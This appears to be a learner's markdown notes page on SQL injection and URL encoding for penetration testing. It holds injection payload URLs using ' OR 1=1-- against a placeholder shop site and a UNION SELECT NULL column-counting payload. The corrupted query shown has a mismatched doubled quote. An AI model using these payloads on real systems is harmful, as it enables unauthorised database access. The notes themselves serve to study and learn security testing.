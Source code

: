 ```yaml
---
title: Pen Testing 3 SQL, Burp
tags: tech
---
```


# Url search bar

Search bar will convert non-ascii characters to percents aka encoded UTF-8 encoded text  
`https://<url>?<query>

* <query>
  * white-space CAN be encoded to + OR percent hex representation
  * UTF-8 char encodes to percent hex representation 
<!--  -->
* Target: `https://insecure-website.com/products?category=Gifts`  
  * <query>: `?category=Gifts`
  * attack 1: `https://insecure-website.com/products?category=Gifts'+OR+1=1--`
  * attack 2: `https://insecure-website.com/products?category=Gifts%27%20OR%201%3D1%20--`

The `+` in attack 1 is translated into white space NOT the escaped `+` character.


```sql
-- Original 
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

--Corrupted
SELECT * FROM products WHERE category = 'Gifts'' OR 1=1--AND released = 1
```

`--AND released = 1` gets commented out.  
The resulting query is equivalent to `SELECT * FROM products`  


## Finding number of cols

* `' UNION SELECT NULL,NULL--`
  * keep adding NULL , until query goes through, the number of NULL is the number of columns